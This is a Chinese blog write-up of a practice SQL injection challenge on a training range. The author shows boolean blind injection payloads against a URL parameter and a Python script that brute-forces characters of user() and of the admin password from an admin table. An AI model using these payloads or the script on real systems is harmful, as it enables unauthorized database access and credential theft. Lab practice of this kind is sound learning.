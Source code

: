 ```yaml
---
title: 记一次用Python挑战SQL注入
createTime: 2020/04/13
tags:
  - Python
  - 渗透测试
---
```

## 前言
- 最近哥们给我分享了一个靶场地址，疫情在家闲着无聊便拿来挑战一下。
- [靶场地址](https://hack.zkaq.cn/)
## 分析
- 可以看到，题目要求是拿到管理员密码即可。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413171506664.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)

- 再进入靶机页面瞅瞅，看来就是要在url上操作了
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413171823314.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)
- 简单加一个and 1=1和and 1=2，发现1=1时，显示下面的猫舍介绍，1=2时，不显示猫舍介绍。这个变化就作为分辨依据。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413174244815.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)

## 开始挑战
### 先拿一手user()（此时我已经忘记题目要求要拿管理员密码。。。。。）
##### 先拿user()长度
- 先and char_length(user())>0，OK
- 再and char_length(user()>100),ERROR
- 。。。。。。（中间省略，自己慢慢试）
- 就这样把user()的长度试了出来，16。
##### 长度出来，试字段
- 用and ASCII(mid(user(),1,1))>0，试出来后查表转换为字符
- 然后我们用python（不要问我为啥突然用python，试了8个字符后，手都试酸了。。。T0T）
- 上代码（代码不能直接用啊，自己简单分析一下，根据自己要获取的内容改一下，再补全IP就能用了）

```python
import re,requests

result = []
string = []
for j in range(1,17):	#循环第几个字符
    for i in range(97,123):	#从ASCII码表的第几到几开始试，试全部可能会慢很多
        #url = 'http://117.167.*.*:10180/index.php?id=1%20and%20(select%20ascii(mid(password,'+str(j)+',1))%20from%20admin)='+str(i) #找password时候用的
        #url = 'http://117.167.*.*:10180/index.php?id=1'+'and ASCII(mid(1,1))='+str(i)
        url = 'http://117.167.*.*:10180/index.php?id=1%20and%20ASCII(mid(user(),'+str(j)+',1))='+str(i)
        res = requests.get(url)
        res.encoding = 'utf8'
        if("猫舍介绍" in res.text):#判断返回的是OK还是ERROR
            print(str(j)+'是'+str(i))
            result.append(str(j)+':'+str(i))
            string.append(str(j)+':'+chr(i)) #将得到的编码自动转换成字符
            break
        else:
            print('不是'+str(i))

print(result)
print(string)
```
- 程序运行完之后记得查看输出结果是否有没试出来的字符，可以换个区间重新试一下或者自己手动试。

### 同理再拿一手database()
- maoshe
### 再拿一手version()
- 5.5.53
### 再拿一手hostname
- gongksik_d45fb6
### 再拿一手。。。。。。
### 哎，我到底要拿啥来着，哦对，管理员密码
#### 先找表
- 先随便试一下有没有admin表，and (select count(*) from admin)>0，Woc！！！还真有！
- 再随便试一下有没有password字段，and(select count(password) from admin)>0，Woc！！！又有！
- 这里博主走了点狗屎运，读者请勿模仿，自行一个个猜哈~
- 接下来就简单了，用上上面的python代码
- 注入标记改为(select ASSII(mid(password,1,1)))>0
- 然后就得到了管理员密码——（自己试去，┑(￣▽ ￣)┍）
### 接下来最重要的步骤——登录MySQL系统
- 等好久都不成功，才想起我们的目标只是拿到管理员密码。。。。。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413180149362.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)
## 后记
- 本次SQL注入到此结束，还愣着干啥，点赞关注走一走啊。。。。（￣︶￣）↗
